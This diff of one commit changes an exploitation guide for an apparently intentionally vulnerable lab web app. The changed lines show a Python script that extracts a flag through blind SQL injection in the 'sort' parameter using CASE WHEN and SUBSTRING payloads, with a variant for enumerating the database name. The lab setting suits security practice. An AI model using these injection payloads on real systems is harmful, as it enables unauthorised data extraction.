

Before and after one commit to Mgh-Zakariae/Vulnerable_web_app, a Markdown page: Exploitation_Guide.md, the part around the change. GitHub-like rendering.

````diff
--- a/Exploitation_Guide.md
+++ b/Exploitation_Guide.md
@@ -111,7 +111,7 @@ import urllib.parse
 array = list(string.ascii_letters + string.digits)
 array.extend(list("{}()_-$@!#"))
 
-url = "http://localhost:3000/posts/my_posts?sort="
+url = "http://localhost:8000/posts/my_posts?sort="
 
 # Define the session ID (replace with your actual session ID)
 # we use this line to bypass the login check
@@ -123,7 +123,7 @@ req_with_title = requests.get(url + "title", cookies=cookies).text
 flag = ""
 print("#### Start Exploit")
 
-for i in range(1, 40):
+for i in range(1, 45):
     for l in array:
         payload = f"CASE WHEN (select BINARY SUBSTRING(flag,1,{i}) from flag) = '{flag+l}' THEN title ELSE category END"
         encoded_payload = urllib.parse.quote_plus(payload)  # Encode the payload properly
@@ -137,6 +137,7 @@ for i in range(1, 40):
         break
 
 print(f"Final flag: {flag}")
+
 ```
 > you can modify this script to enumerate more information about database , for example to enumerate name of database you can use this payload : `payload = f"CASE WHEN (select BINARY SUBSTRING(database(),1,{i})) = '{flag+l}' THEN title ELSE category END`
 
````
